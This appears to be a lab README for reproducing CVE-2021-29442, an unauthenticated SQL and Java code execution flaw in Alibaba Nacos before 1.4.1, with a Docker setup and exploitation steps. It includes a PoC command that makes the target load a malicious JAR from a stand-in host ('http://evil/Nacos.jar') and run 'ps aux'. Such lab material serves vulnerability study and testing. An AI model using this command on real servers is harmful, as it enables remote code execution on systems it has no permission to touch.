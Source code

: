 # Alibaba Nacos Authentication Bypass and Remote Code Execution (CVE-2021-29442)

[中文版本(Chinese version)](README.zh-cn.md)

Nacos is an easy-to-use platform designed for dynamic service discovery and configuration and service management.

In the Nacos version before 1.4.1, some API endpoints such as `/nacos/v1/cs/ops/derby` are not protected and can be openly accessed by unauthenticated users. Attackers are able to execute arbitrary SQL statement and Java code.

References:

- <https://github.com/advisories/GHSA-xv5h-v7jh-p2qh>
- <https://github.com/alibaba/nacos/issues/4463>
- <https://github.com/ayoundzw/nacos-poc>
- <http://www.lvyyevd.cn/archives/derby-shu-ju-ku-ru-he-shi-xian-rce>

## Vulnerable environment

Execute following command to start a Alibaba Nacos 1.4.0:

```
docker compose up -d
```

After server is started, brwose the `http://your-ip:8848/nacos/` you will see the default login page of Nacos.

## Exploit

First, upload malicious JAR [evil.jar](evil.jar) to a HTTP server, for example `http://evil/Nacos.jar`.

Then, execute [POC](poc.py) to exploit the issue:

```
python poc.py -t http://your-ip:8848 -s http://evil/Nacos.jar -c "ps aux"
```

The `-t` parameter specifies the target address, the `-s` parameter specifies the address of the malicious JAR package, and the `-c` parameter specifies the command to be executed.

As you can see, `ps aux` is executed successfully:

![](1.png)
